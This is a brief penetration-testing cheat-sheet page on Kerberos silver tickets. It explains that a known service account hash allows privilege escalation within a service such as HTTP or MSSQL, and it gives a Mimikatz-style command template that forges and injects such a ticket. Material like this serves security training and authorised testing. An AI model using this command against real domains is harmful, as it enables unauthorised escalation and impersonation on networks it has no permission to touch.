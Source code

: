 # Kerberos Silver  Tickets

Silver tickets allow you privilege escalation in context of a service, given that you know a service account hash.

#### HTTP

You get elevated Permissions in the Web Application.

#### MSSQL

You can become sql server administrator

Many others are described here: [https://adsecurity.org/?p=2011](https://adsecurity.org/?p=2011)

#### Create Silver Ticket:

Requirements: Domain SID \(`Get-ADDomain`\) & Service Account Hash

```text
kerberos::golden /sid:S-1-5-21-xxxxxxxxx-xxxxxxxxx-xxxxxxxxx/domain:test.local /ptt /id:1337 /target:web.test.local /service:http /rc4:... /user:xctadmin
```

